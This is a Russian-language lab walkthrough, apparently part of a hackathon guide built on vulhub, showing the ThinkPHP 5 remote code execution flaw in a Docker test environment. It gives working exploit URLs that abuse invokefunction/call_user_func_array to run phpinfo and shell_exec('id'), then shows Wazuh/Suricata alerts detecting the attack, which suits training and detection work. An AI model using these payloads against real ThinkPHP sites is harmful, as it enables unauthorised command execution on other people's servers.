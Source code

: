 # 5-rce

### Материалы:

* [https://www.programmersought.com/article/91363936232/](https://www.programmersought.com/article/91363936232/)

ThinkPHP — чрезвычайно широко используемая среда PHP разработки в Китае. В пятой версии ThinkPHP, поскольку платформа неправильно обрабатывает имя контроллера, она может выполнить любой метод, если на веб-сайте не включена обязательная маршрутизация (которая используется по умолчанию), что приводит к уязвимости RCE.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/thinkphp/5-rce

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна стандартна страница ThinkPHP

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(1).png" alt=""><figcaption></figcaption></figure>

Посетите следующую страницу для реализации уязвимости и вывода страницы phpinfo

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(2).png" alt=""><figcaption></figcaption></figure>

Также вы можете выполнять произвольные команды на целевой машине, например команду "id":

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=id

```

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(4) (2).png" alt=""><figcaption></figcaption></figure>
